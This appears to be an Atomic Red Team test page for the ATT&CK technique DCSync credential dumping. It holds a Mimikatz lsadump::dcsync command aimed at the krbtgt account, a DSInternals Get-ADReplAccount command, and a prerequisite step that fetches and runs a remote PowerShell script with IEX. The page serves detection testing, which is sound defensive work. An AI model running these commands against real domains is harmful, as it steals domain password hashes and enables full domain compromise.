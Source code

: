 # T1003.006 - OS Credential Dumping: DCSync
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1003/006)
<blockquote>

Adversaries may attempt to access credentials and other sensitive information by abusing a Windows Domain Controller's application programming interface (API)(Citation: Microsoft DRSR Dec 2017) (Citation: Microsoft GetNCCChanges) (Citation: Samba DRSUAPI) (Citation: Wine API samlib.dll) to simulate the replication process from a remote domain controller using a technique called DCSync.

Members of the Administrators, Domain Admins, and Enterprise Admin groups or computer accounts on the domain controller are able to run DCSync to pull password data(Citation: ADSecurity Mimikatz DCSync) from Active Directory, which may include current and historical hashes of potentially useful accounts such as KRBTGT and Administrators. The hashes can then in turn be used to create a [Golden Ticket](https://attack.mitre.org/techniques/T1558/001) for use in [Pass the Ticket](https://attack.mitre.org/techniques/T1550/003)(Citation: Harmj0y Mimikatz and DCSync) or change an account's password as noted in [Account Manipulation](https://attack.mitre.org/techniques/T1098).(Citation: InsiderThreat ChangeNTLM July 2017)

DCSync functionality has been included in the "lsadump" module in [Mimikatz](https://attack.mitre.org/software/S0002).(Citation: GitHub Mimikatz lsadump Module) Lsadump also includes NetSync, which performs DCSync over a legacy replication protocol.(Citation: Microsoft NRPC Dec 2017)

</blockquote>

## Atomic Tests

- [Atomic Test #1 - DCSync (Active Directory)](#atomic-test-1---dcsync-active-directory)

- [Atomic Test #2 - Run DSInternals Get-ADReplAccount](#atomic-test-2---run-dsinternals-get-adreplaccount)


<br/>

## Atomic Test #1 - DCSync (Active Directory)
Active Directory attack allowing retrieval of account information without accessing memory or retrieving the NTDS database.
Works against a remote Windows Domain Controller using the replication protocol.
Privileges required: domain admin or domain controller account (by default), or any other account with required rights.
[Reference](https://adsecurity.org/?p=1729)

**Supported Platforms:** Windows


**auto_generated_guid:** 129efd28-8497-4c87-a1b0-73b9a870ca3e





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| domain | Targeted Active Directory domain | string | %userdnsdomain%|
| user | Targeted user | string | krbtgt|
| mimikatz_path | Mimikatz windows executable | path | %tmp%&#92;mimikatz&#92;x64&#92;mimikatz.exe|


#### Attack Commands: Run with `command_prompt`! 


```cmd
#{mimikatz_path} "lsadump::dcsync /domain:#{domain} /user:#{user}@#{domain}" "exit"
```




#### Dependencies:  Run with `powershell`!
##### Description: Mimikatz executor must exist on disk and at specified location (#{mimikatz_path})
##### Check Prereq Commands:
```powershell
$mimikatz_path = cmd /c echo #{mimikatz_path}
if (Test-Path $mimikatz_path) {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
IEX (iwr "https://raw.githubusercontent.com/redcanaryco/invoke-atomicredteam/master/Public/Invoke-FetchFromZip.ps1" -UseBasicParsing) 
$releases = "https://api.github.com/repos/gentilkiwi/mimikatz/releases"
$zipUrl = (Invoke-WebRequest $releases | ConvertFrom-Json)[0].assets.browser_download_url | where-object { $_.endswith(".zip") }
$mimikatz_exe = cmd /c echo #{mimikatz_path}
$basePath = Split-Path $mimikatz_exe | Split-Path
Invoke-FetchFromZip $zipUrl "x64/mimikatz.exe" $basePath
```




<br/>
<br/>

## Atomic Test #2 - Run DSInternals Get-ADReplAccount
The following Atomic will run Get-ADReplAccount from DSInternals.
Upon successful execution, domain and credentials will appear in stdout. 
[Reference](https://www.crowdstrike.com/blog/observations-from-the-stellarparticle-campaign/) CrowdStrike StellarParticle.
https://www.dsinternals.com/en/retrieving-active-directory-passwords-remotely/

**Supported Platforms:** Windows


**auto_generated_guid:** a0bced08-3fc5-4d8b-93b7-e8344739376e





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| logonserver | ComputerName argument default %logonserver% | string | $ENV:logonserver.TrimStart("&#92;")|


#### Attack Commands: Run with `powershell`! 


```powershell
Get-ADReplAccount -All -Server #{logonserver}
```




#### Dependencies:  Run with `powershell`!
##### Description: DSInternals must be installed
##### Check Prereq Commands:
```powershell
$RequiredModule = Get-Module -Name DSInternals -ListAvailable
if (-not $RequiredModule) {exit 1}
if (-not $RequiredModule.ExportedCommands['DSInternals']) {exit 1} else {exit 0}
```
##### Get Prereq Commands:
```powershell
Install-Module -Name DSInternals -Scope CurrentUser -Force
```




<br/>
